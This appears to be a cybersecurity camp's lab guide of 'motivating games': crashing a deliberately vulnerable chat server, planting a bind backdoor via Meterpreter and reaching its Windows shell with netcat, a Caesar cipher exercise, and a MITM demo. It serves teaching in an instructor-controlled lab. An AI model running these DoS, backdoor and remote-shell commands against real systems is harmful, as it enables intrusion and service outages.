 # Motivating Games 

## 1. Denial of service (DoS)

### Overview
In our lecture on <a href="https://github.com/xinwenfu/GenCyber/tree/main/SoftwareSecurity">Penetration Testing and Software Security</a>, we have exploited the vulnerable chat server (vchat) and deployed the buffer overflow attack against vchat. We were able to hack into the Windows VM through vchat.

The same vulnerability can be exploited for a denial of service (DoS) attack. In the DoS attack, the attacker sends a long message with garbage content, which overwrites the buffer and contents above the buffer as shown in the figure below. This messes up the function return address with garbage data. Now when the function returns, it returns to nowhere and *vchat* actually crashes because of this. The chat service is lost and access to the service is denied.

<img src="../Imgs/BufferOverflow-junk.png" width=480>

### DoS game

1. The instructor or a volunteer starts a vulnerable chat server C:\Tools\vchat\Server\vchat.exe on a Windows VM
   - Announce the IP of Windows VM running *vchat*
2. Everybody runs /home/kali/GenCyber/vchat/Client/client.py to chat with each other
   - Wait for everybody to send at least one message
3. Do not proceed further without the instructor's permission
4. Now anybody can deploy the DoS attack
   - Use armitage to scan the target Windows VM and find attacks
   - Click the found Windows VM (IP)
   - Deploy auxillary/dos/vchat/DoS

## 2. Planting backdoor

### Overview

We want to understand the danger of getting exploited. If a backdoor is planted on a compromised computer, the attacker will be able to log into the compromised computer anytime later if the compromised computer is not fixed. 

### Backdoor game

1. Refer to Hands-on 2 of <a href="https://github.com/xinwenfu/GenCyber/tree/main/SoftwareSecurity">Lecture 2 Penetration Testing and Software Security</a>. Yoiu hack into the instructor's Windows VM.
   - The instructor will show the IP of his Windows VM (192.168.0.87)
2. Once the instructor's VM is compromised, you start a Meterpreter shell. 
   - The Meterpreter shell can be used to upload a malware program from the attacker's computer to the victim computer. Let's assume the attacker already uploaded the malware, which is C:\Workshop\MalwareSamples\Backdoors\SimpleBindBackdoor\nice3.exe
   - The Meterpreter shell can also be used to <a href="https://pentestwiki.org/metasploit-meterpreter-cheat-sheet/">execute the uploaded malware</a>. Run the following command within the Meterprester shell to run the backdoor
```
execute -f C:\\Workshop\\MalwareSamples\\Backdoors\\SimpleBindBackdoor\\nice3.exe
```
3. Start a terminal on your Kali VM and run the following command to log into the backdoor running on the instructor's Window VM. 
```
nc 192.168.0.87 8080
```

Here is an example of a succesful login
```
$ nc 192.168.0.87 8080
Microsoft Windows [Version 10.0.19044.1826]
(c) Microsoft Corporation. All rights reserved.

C:\Tools\vchat\Server>
```

Run a *dir* command within the Windows console. What do you see?

4. Tell the instructor once you can get into the backdoor. 
5. Other students can try to log into the backdoor similarly and notify the instructor if they can do it

## 3. Messaging with Caesar cipher
### Overview
In Caesar Cipher, as shown in the Caesar Cipher Medallion shown below, we map a letter in a message, called plaintext letter, to another letter for encryption, called ciphtertext letter. In this way, we can use Caesar Cipher to encrypt messages.

<img src="../Imgs/CaesarCipherMedallion.png" width=480> 

### Messaging with Caesar cipher Medallion
- The instructor starts the chat server on his Windows VM
- Evebody starts the chat client on their Kali VM
- The instructor sends a secret message
- Everybody decrypts the secret message

## 4. Man in the middle attack	
### Overview
In this game, we will show with the message integrity code, your messages are not safe. For example, a man in the middle of you and your receiver can change the message and you cannot tell if the message is changed.

### MITM game
1. The instructor starts the vulnerable chat server on his Windows VM.
2. Students start the chat client on their Kali VMs.
3. The instructor starts the MITM attack, in which the chat server will insert junks into each published message.
   - Use telnet to connect to the chat server: *telnet chat-server-ip 9999*
   - Enable MITM within telnet 
```
MITM 1
```
Now all messages will be appended with " hahaha...".
